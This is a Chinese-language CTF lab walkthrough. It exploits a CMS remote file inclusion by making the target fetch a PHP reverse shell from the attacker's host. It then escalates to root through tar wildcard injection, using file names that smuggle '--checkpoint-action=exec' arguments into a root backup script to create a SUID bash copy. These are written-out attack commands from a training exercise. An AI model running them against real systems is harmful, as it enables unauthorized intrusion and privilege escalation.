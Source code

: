 在其中找到了重要文件 里面有我们需要的东西 一个隐藏目录 用这个目录又进行字典爆破 发现一个cms登录界面

## 远程文件包含漏洞

searchsploit能搜到这个漏洞

```
http://10.10.36.16/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.17.40.203:8000/php-reverse-shell.php

# /alerts/alertConfigField.php?urlConfig=http://10.17.40.203:8000/php-reverse-shell.php 是rfi的路径
``` 

下载了一个反弹shell的php 用python服务器当路径来传php文件

## 成功反弹shell

我们跑一个linpea的脚本 能获得很多我们需要的信息

![image.png](https://s2.loli.net/2025/04/19/q2PNleFYwMy85oa.png)


## tar提权 ​tar命令对通配符*的解析漏洞
首先我们先看一下这个backup的脚本作用 使用root权限的脚步

![image.png](https://s2.loli.net/2025/04/19/j32subRvBnS6HIl.png)

backups目录下有一个backup.sh文件，其内容和作用是--切换目录至/var/www/html 并将该目录下的所有内容归档为backup.tgz压缩文件，该tgz文件保存在backups目录下

tar命令可以利用一个名为–checkpoint的参数，该参数允许在每次归档 X 个文件时（X的默认值为10）显示“进度”消息， –checkpoint还可以与 –checkpoint-action 标志串联使用，

backup.sh脚本中使用的通配符* 将对 /var/www/html 目录中的所有文件和文件夹执行归档命令，因此我们可以通过在/var/www/html下添加 –checkpoint=1 文件（启用检查点功能）和 –checkpoint-action=exec=xxx 文件（指定要执行的操作，检查点值为1，每归档一个文件都执行指定操作），那么当 tar 处理到以上文件时，相关的文件名将会被有效地视为tar命令的参数--从而执行某些操作。

```
echo "cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot" > newroot.sh

touch "/var/www/html/--checkpoint=1"
touch "/var/www/html/--checkpoint-action=exec=sh newroot.sh"

#–checkpoint-action=exec=xxx 文件（指定要执行的操作，检查点值为1，每归档一个文件都执行指定操作）
# 在检查点执行脚本 `newroot.sh`，即复制Bash并赋予SUID权限
```

然后到/tmp/ 运行/tmp/nroot -p 就能获得root权限

```
#切换到/tmp目录
cd /tmp
ls
/tmp/nroot -p
```
